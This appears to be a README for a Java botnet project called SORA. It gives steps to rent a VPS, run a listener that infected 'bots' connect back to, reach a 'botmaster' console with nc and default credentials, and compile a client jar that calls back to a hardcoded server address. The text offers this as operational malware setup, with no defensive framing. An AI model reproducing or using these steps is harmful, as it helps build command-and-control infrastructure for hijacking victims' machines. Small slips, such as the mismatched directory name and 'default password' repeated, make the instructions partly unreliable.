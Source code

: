 # Setting up the Sora listen server 

1. Buy a VPS 
2. `git clone https://github.com/thecarterb/SORA.git && cd SoraServer`
3. `gem install bundler && bundle install`

## Starting the _bot_ listener server
1. `./server <port>` (run in the foreground)
1. `screen ./server <port>` (rin in a seperate terminal

Be sure that `<port>` is the same port that you have configured the bots to connect back to.

## Connecting to the botmaster interface

Do `nc <your ip> 45678`, the default password is `botmaster` and the default password is `ilovedogs`. 
Be sure to change these.

***

# Configuring the client

1. Change `HttpRequest request = HttpRequest.get("http://192.168.153.34:8080");`
  * Change the `IP:port` to your server and listen port
2. Compile the jar by doing `./setup.sh <JAR name.jar>`
